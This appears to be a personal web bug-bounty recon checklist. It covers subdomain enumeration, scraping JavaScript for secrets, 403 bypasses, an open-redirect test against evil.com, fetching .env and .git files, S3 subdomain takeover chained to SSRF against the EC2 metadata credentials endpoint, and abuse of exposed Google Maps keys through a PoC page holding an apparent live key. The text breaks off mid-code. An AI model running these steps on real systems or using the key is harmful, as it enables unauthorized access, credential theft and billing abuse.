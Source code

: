 ✓ ✗ ✔ ✘ ✅
For Recon : 
[ ] - Use this command under a folder named as Target
	```assetfinder --subs-only target.com >> recon.txt  
	subfinder -d target.com -silent >> recon.txt  
	amass enum -passive -d target.com >> recon.txt  
	sort -u recon.txt > final-subs.txt
	cat final-subs.txt | httpx -status-code -title -tech-detect -silent > live-subs.txt```
[ ] - Check for `robots.txt` and `sitemap.xml` for subdomains and directories
[ ] - Checking for Secrets in JS FIles
	1. Download all the JS Files present.
	2. Use the command to grep the secrets, keys and tokens : 		```
		cat js_files.txt | while read url; do curl -s $url >> all_javascript_dump.txt; done  
		grep -iE "apikey|token|secret|authorization|bearer" all_javascript_dump.txt```
[ ] - Bruteforce checking all JS Files : `ffuf -w common.txt -u https://target.com/assets/js/FUZZ`
[ ] - Always check User Agent for for Logs, it may give RFi
[ ] - Checking for 403 Forbidden : 
	[ ] - **Adding headers** (like `X-Forwarded-For`, `X-Originating-IP`)
	[ ] - **Trying HTTP methods** (`GET`, `POST`, `HEAD`, `OPTIONS`)
	[ ] - **Using URL encoding tricks** (`%2e`, `%2f`, etc.)
	[ ] - **Appending a dot (**`**.**`**) or a slash (**`**/**`**) at the end**
	[ ] - **Spoofing the Referer header** (`Referer: example.com/allowed-page`)
[ ] - Check for the parameter named `redirect` that is used to redirect the site to the internal sites and then try to pollute it like : `https://app.target.com/login?redirect=dashboard&redirect=https://evil.com`
[ ] - Required payloads to be tried once : 
	```curl https://target.com/config/settings_dev.json
	curl https://target.com/.env
	curl https://target.com/.git/config```
[ ] - Check for the Technology used in the website. If it's Wordpress then : 
	[ ]  -Try using a wp-scan with the API Key to get a full report.
	[ ] - Check the notes in INE-WAPT -> CMS Security Testing
	[ ] - 
[ ] - Check for AWS Buckets : 
	[ ] - Check CNAME using the command : `dig old-staging.target.com CNAME` . If the result looks like this : `old-staging.target.com.  300 IN CNAME  old-target-dev.s3-website-us-east-1.amazonaws.com.` Then use the command : `aws s3 ls s3://old-target-dev` to check for the existence of the bucket.
	If this has happened this shows that, the origin S3 bucket was gone, but is still present as the CNAME of the target. Now we can own the bucket under our account using the command : `aws s3 mb s3://old-target-dev` . Create a simple HTML Page to host the website. Upload it using the command : ```aws s3 website s3://old-target-dev --index-document index.html
	aws s3 cp index.html s3://old-target-dev/ --acl public-read```
	Then to chain it with SSRF, we can use this command by making some changes into it  : `curl -X POST http://old-staging.target.com/api/render -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role"}'`
	Then to chain it with SSRF, we can use this command by making some changes into it  : `curl -X POST http://old-staging.target.com/api/render -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role"}'`
[ ] - API Keys
	[ ] - Google Maps API Key Exposure Impact - 
		[ ] - Check with this command if we get any response or not : `curl "https://maps.googleapis.com/maps/api/geocode/json?address=Delhi&key=<exposed-key>" `      
		[ ] -  Check for High Billing Impact : 
		```for i in {1..10}; do
		curl "https://maps.googleapis.com/maps/api/geocode/json?address=New+York+$i&key=<exposed-apikey>"
		done```
		[ ] - Check for Directions API : `curl "https://maps.googleapis.com/maps/api/directions/json?origin=Delhi&destination=Mumbai&key=<exposed-apikey>"`
		 [ ] - Check for DistanceMatrix API : `curl "https://maps.googleapis.com/maps/api/distancematrix/json?origins=Delhi&destinations=Bangalore&key=<exposed-apikey>"`
		 [ ] - Check for Places API : `curl "https://maps.googleapis.com/maps/api/place/textsearch/json?query=restaurants+in+Goa&key=<exposed-apikey>"`
		 [ ] - Create an HTML Page and try to use the key and get the services running : 
			 ```
			 <!DOCTYPE html>
				<html>
				  <head>
				    <title>Google Maps API PoC</title>
				    <style>
				      #map {
				        height: 500px;
				        width: 100%;
				        border: 2px solid red;
				      }
				    </style>
				    <script>
				      function initMap() {
				        const map = new google.maps.Map(document.getElementById("map"), {
				          center: { lat: 28.6139, lng: 77.2090 },
				          zoom: 8,
				        });
				      }
				    </script>
				  </head>
				  <body>
				    <h2>Google Maps API PoC</h2>
				    <p>This page demonstrates unauthorized use of a restricted API key.</p>
				    <div id="map"></div>
				
				    <script async defer
				      src="https://maps.googleapis.com/maps/api/js?key=AIzaSyDGIbHRgermtM8qzUrn2YsGiOd6Vf5PJws&callback=initMap">
				    </script>
				  </body>
				</html>
			